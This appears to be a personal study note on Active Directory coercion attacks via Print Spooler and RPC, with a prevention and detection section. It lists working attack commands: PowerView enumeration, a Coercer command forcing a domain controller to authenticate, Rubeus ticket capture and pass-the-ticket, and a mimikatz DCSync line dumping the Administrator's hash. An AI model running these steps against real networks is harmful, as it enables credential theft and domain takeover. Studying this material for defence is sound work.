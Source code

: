 ### General Notes

This is an [[Active Directory]] attack where an attacker trickers a Windows host into authenticating to a device controlled by an attacker.
- The attacker sends a request to a windows service that causes the target system to initiate an authentication connection.
- The attacker controls where this authentication request goes, either to themselves or to a *relayed* machine.

> This is done on *RPC* functions like the [[Print Spooler]] bug. The [Coercer](https://github.com/p0dalirius/Coercer) tool is developed to exploit vulnerable RPC functions.

###### Impact on [[Domain Controller]]s
If any Domain Controller has *print spooler* service enabled - knowing it is the most powerful machine in the [[Active Directory]] domain - an attacker can force the DC to authenticate elsewhere. 

The following attacks are possible:
1. The attacker can authenticate to another DC, and perform a [[DCSync]] attack to extract all the password hashes of the Active Directory. This is the case if [[Server Message Block (SMB)]] signing is off.
2. Relay the authentication to *Active Directory Certificate Services* to obtain a [[Certificates|Certificate]] for the [[Domain Controller]] that can be used by attackers to pretend to be the Domain Controller.
3. The attacker can relay the connection to a machine with [[Kerberos Constrained Delegation Attack#Delegation|Unconstrained Delegation]] enabled, which causes that machine to obtain the DC's *TGT*. The attacker can them dump the *TGT* of the DC from that machine and impersonate the DC.

---
### Attack Path for Unconstrained Delegation

The goal here is to force a DC to connect to a machine with *Unconstrained Delegation* which the attacker can then obtain from the target machine.

The first step is to identify systems that are configured for *Unconstrained Delegation*, which can be done using `Get-NetComputer` function from [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) with the `-Unconstrained` switch.
```powershell
Get-NetComputer -Unconstrained | select samaccountname
```
- The `samaccountname` is the user logon name and it is unique per domain.

Once we identify the machine of choice, we need to run the `coercer` tool to target the Domain Controller and force it to connect to the machine identified.
```powershell
Coercer -u <domain-user> -p <password> -d <domain> -l <UD-machine> -t <DC>
```
- The machine identified we should have obtained a username and password for it.

Once that is done, we need to obtain the *TGT* of the *DC* from the identified machine. If we have access to the machine, we can run `Rubeus` to monitor for logons and extract *TGTs*. This should be run in an administrator shell.
```powershell
Rubeus.exe monitor /interval:1
```

Once we obtain the TGT for the DC, we can use it to act as the DC, so we can execute the [[DCSync]] attack.
1. We insert the DC ticket into the current session:
```powershell
Rubeus.exe ptt /ticket:<TICKET>
```
2. Use `mimikatz` to execute the DCSync attack:
```powershell
mimkatz.exe
lsadump::dcsync /domain:<domain> /user:Administrator
```

---
### Prevention & Detection

Implementing a *third party RPC* [[Firewall]] to block dangerous RPC function, and blocking connections to outbound [[Port]]s like `139` and `445`.

To detect this type of attack from `Corecer`, we can check the network traffic logs to see:
- We will see connections going to the DC, followed by connections from the DC to the attacker machine (machine with *UD*).
- This can be done several times while `Coercer` tries different RPC functions.

---
